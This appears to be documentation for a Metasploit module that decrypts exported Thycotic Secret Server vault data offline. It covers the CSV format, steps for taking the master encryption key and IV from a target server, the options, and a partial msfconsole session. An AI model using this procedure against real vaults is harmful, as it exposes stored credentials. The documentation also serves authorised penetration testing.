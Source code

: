 CSV data must have the following header to be processed by this module:

`'SecretID,LastModifiedDate,Active,SecretType,SecretName,IsEncrypted,IsSalted,Use256Key,SecretFieldName,ItemKey,IvMEK,ItemValue,ItemValue2,IV'`

and an example row should look like:

`1,2022-07-25 00:20:49.550,1,0x0123456789ABCDEF0123456789ABCDEF0123456789ABCDEF0123456789ABCDEF0123456789ABCDEF,0x0123456789ABCDEF0123456789ABCDEF,1,1,1,0123456789ABCDEF0123456789ABCDEF,0x03033EED12D312682FC16186983B991753770E5189C643F715F9EE09EF610DCD0F6A242855FE9F1424113F9CC5012BF7F109F85F3E632B917EB19CA971AE971753488BF3AFDB9E6E9870C73C78E204813AF5DFA0EFD11B2FB16A77B3CF36E2581130A,0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF,030230cbd03d72fb08f0445deadbd1cd7c48f715e490a36f81edd5035de8cb9835eaa43594c5b9240a659fcfd288dd6f359cbbb32b33fd5156621fd1addaa6523d031ad7e852aa0f8628b4,NULL,0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF`

1. Acquire the decrypted MEK key and IV values from `encryption.config` on the target Secret Server
2. Acquire a properly formatted CSV export of encrypted Secret Server data per above
3. Start msfconsole
4. Do: `use auxiliary/gather/thycotic_secretserver_offline_decrypt`
5. Do: `set csvfile <path to csv>` where `<path to csv>` is the path to the database export CSV file
6. Do: `set key <key>` where `<key>` is the AES-128 MEK in hexadecimal format
7. Do: `set key256 <key256>` where `<key256>` is the AES-256 MEK in hexadecimal format
8. Do: `set iv <iv>` where `<iv>` is the MEK IV in hexadecimal format
9. Do: `set ip <ip>` to attach the target IPv4 address to loot entries (Optional)
10. Do: `dump`

## Options

### KEY

The Secret Server AES-128 Master Encryption Key, in hexadecimal format.

### KEY256

The Secret Server AES-256 Master Encryption Key, in hexadecimal format.

### IV

The Secret Server Master Encryption IV, in hexadecimal format.

### IP

Optional parameter to set the IPv4 address associated with loot entries made by the module.

## Scenarios
Example run against data extracted from Secret Server 11.2:

```
msf6 > use auxiliary/gather/thycotic_secretserver_offline_decrypt
msf6 auxiliary(gather/thycotic_secretserver_offline_decrypt) > set csvfile /tmp/secretserver.csv
csvfile => /tmp/secretserver.csv
msf6 auxiliary(gather/thycotic_secretserver_offline_decrypt) > set key fc35d1abcade1c180c699e10fbb3efeb
key => fc35d1abcade1c180c699e10fbb3efeb
msf6 auxiliary(gather/thycotic_secretserver_offline_decrypt) > set key256 e768c5223bafa5481faca1ee10b63fb80c699e10ffa694ce29adc66963d05109
key256 => e768c5223bafa5481faca1ee10b63fb80c699e10ffa694ce29adc66963d05109
msf6 auxiliary(gather/thycotic_secretserver_offline_decrypt) > set iv 2c2df1a68dbc29adc66041bd6e6e4ad3
iv => 2c2df1a68dbc29adc66041bd6e6e4ad3
msf6 auxiliary(gather/thycotic_secretserver_offline_decrypt) > set ip 10.1.0.113
ip => 10.1.0.113
msf6 auxiliary(gather/thycotic_secretserver_offline_decrypt) > show options

```